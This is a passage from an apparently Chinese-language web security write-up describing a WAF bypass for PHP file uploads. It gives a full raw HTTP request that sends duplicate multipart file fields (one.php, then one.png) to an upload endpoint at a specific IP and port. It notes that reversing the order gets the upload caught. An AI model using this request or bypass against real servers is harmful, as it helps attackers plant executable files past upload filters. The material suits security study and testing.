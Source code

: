 ##### PHP 解析特性绕过

通过提交多个上传请求，利用 waf 和 php 解析不一致绕过。

```plain
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 395
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename="one.php"
Content-Type: application/octet-stream
-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename="one.png"
Content-Type: application/octet-stream

here
-----------------------------2477136673360361791890184650--
```

[![](assets/1707954466-478c368f7e0f90ad84ca27c3dbe0566e.png)](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945197953-50ef674c-4ce8-4350-bd14-2fba712f1068.png#averageHue=%23fbfafa&clientId=u74e75591-cad2-4&from=paste&height=473&id=u57dd6958&originHeight=709&originWidth=1622&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=129550&status=done&style=none&taskId=u9cce0c83-0fa4-40cf-ae6c-bd5c46dd058&title=&width=1081.3333333333333)  
调换顺序后被 WAF 检测到  